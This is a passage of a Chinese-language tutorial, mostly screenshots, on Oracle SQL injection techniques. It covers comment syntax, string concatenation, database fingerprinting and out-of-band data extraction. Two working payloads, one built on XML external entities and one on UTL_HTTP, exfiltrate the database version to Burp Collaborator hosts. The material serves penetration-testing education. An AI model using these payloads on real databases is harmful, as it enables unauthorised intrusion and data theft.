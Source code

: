 多行注释，需要闭合

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4icvKoiciaCEfErpxXqK0fBOegRUZ66HNNQUVJGibkmvUAFzPHUr1sn1xbg/640?wx_fmt=png)

**Oracle 字符串连接符是 ||**

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4TjZhLsPicMgPF7YSpSMNJQQOPZrBEechpLiaKeG6wrKmmLXK9SC3baQg/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4mcMzWaibyrFJMhpFNt4EXTjjEvWMgrY7seWavy6iaEcmPD3dB98g4IvQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib43j3hibBJtnfJbqYyVIjiafW1Eibib2BJLjslDPnkicT5jfSs9WFFicM1zPWA/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4HKEsDmxqRnx1bWcIJnCqib6Z9EmHoRsgGibrziaOzjWt2XvdnY7q1BeiaA/640?wx_fmt=png)

**oracle 带外注入**

oralce9i 开始我们对 oracle 数据库进行攻击的时候通常需要确定数据库的版本，以便确定是否能进行进一步的利用，这里举一个带外查询数据库版本的例子，因为域名中不能出现特殊字符，所以需要进行编码，经过测试一个子域名最长是 64 个字节（猜测与 dns 服务器的具体实现有关，后边再看 dns 服务器具体实现对 dns 查询请求 A 记录名称长度的规定），但是 select BANNER from v$version where rownum=1 返回的第一条信息编码后的长度远超过 64 个字节，可以看出第三行数据比较短，但是 oracle 没有 limit 语句，就很不方便。

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib42TDHt2YG9UDSRwu9doeUHb4cyLicia6v90TCzF8OiaOafEOfNBU4zbXZA/640?wx_fmt=png)

我们可以用这条语句达到同样的效果，因为我们只需要获取到版本即可

SELECT VERSION FROM PRODUCT_COMPONENT_VERSION where ROWNUM=1

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4lpYvPua08mrxHg28VGymIRluT4xNxIRobxqd8dK1kt3aYHaaaicfWzQ/640?wx_fmt=png)

```
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT rawtohex(VERSION) FROM PRODUCT_COMPONENT_VERSION where ROWNUM=1)||'.fl4oiu2as1pycr4g77lqjsk8yz4pse.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4c8mOcESjtk15aXkbeR4eDtlZmbViaYFmxlQe3AJKDyj6OzymJfibEMMQ/640?wx_fmt=png)

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib42DkHrSIbkBwazHKh0QwuCzJswAyjUsCVJ12WABXdZg2nbPCVEYbtWQ/640?wx_fmt=png)

进行其他操作同样需要考虑以上问题

也可以使用 UTL_HTTP

```
select * from t_user where name='admin' || utl_http.request('http://'||(SELECT RAWTOHEX(VERSION) FROM PRODUCT_COMPONENT_VERSION where ROWNUM=1)||'.ujh1wgf4gp9zr79ra4270zdt7kda1z.burpcollaborator.net')
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib4kSkmMTbTFXkrUZeg72yiah2ibJNwTlwVibOB8XzYy1rz4NseRd4X5NDHA/640?wx_fmt=png)

**使用 Oracle 专属函数判断是否为 Oracle 数据库**

to_char、to_number

![图片](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JVwxdgoCmPeWZDjwDfbeTib40ky2xwzciapQEz9bOibWnP39duWZBJaciaYianMbIOQFcDmu0DRicXicLeNA/640?wx_fmt=png)
